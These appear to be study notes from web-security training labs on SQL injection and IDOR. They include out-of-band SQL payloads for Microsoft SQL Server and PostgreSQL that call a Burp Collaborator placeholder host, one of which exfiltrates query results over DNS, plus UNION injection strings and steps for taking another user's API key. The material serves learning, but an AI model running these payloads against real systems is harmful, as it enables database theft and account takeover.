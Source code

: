 Perform a DNS lookup to an external domain:

- **Oracle:** Various methods (XXE, elevated privileges)
- **Microsoft:** `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`
- **PostgreSQL:** `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`
- **MySQL:** Various methods (Windows only)

## DNS Lookup with Data Exfiltration

Perform a DNS lookup with data exfiltration to an external domain:

- **Oracle:** Various methods
- **Microsoft:** `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`
- **PostgreSQL:** Using a custom function (example provided)
- **MySQL:** Windows-only method (example provided)

Use these techniques responsibly and only in controlled, authorized environments. Unauthorized use of SQL injection techniques is illegal and unethical.

## Lab: SQL injection UNION attack, finding a column containing text
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query. Verify that the query is returning three columns, using the following payload in the category parameter:

	'+UNION+SELECT+NULL,NULL,NULL--
3. Try replacing each null with the random value provided by the lab, for example:

	'+UNION+SELECT+'abcdef',NULL,NULL--
4. If an error occurs, move on to the next null and try that instead.

# Server Side vulnerabilities
## Horizontal Privilege escalation.

https://insecure-website.com/myaccount?id=123
If an attacker modifies the id parameter value to that of another user, they might gain access to another user's account page, and the associated data and functions.

IDOR:  insecure direct object reference (IDOR) vulnerability. This type of vulnerability arises where user-controller parameter values are used to access resources or functions directly.

In some applications, the exploitable parameter does not have a predictable value. For example, instead of an incrementing number, an application might use globally unique identifiers (GUIDs) to identify users. This may prevent an attacker from guessing or predicting another user's identifier. However, the GUIDs belonging to other users might be disclosed elsewhere in the application where users are referenced, such as user messages or reviews.

	Find a blog post by carlos.
	Click on carlos and observe that the URL contains his user ID. Make a note of this ID.
	Log in using the supplied credentials and access your account page.
	Change the "id" parameter to the saved user ID.
	Retrieve and submit the API key.
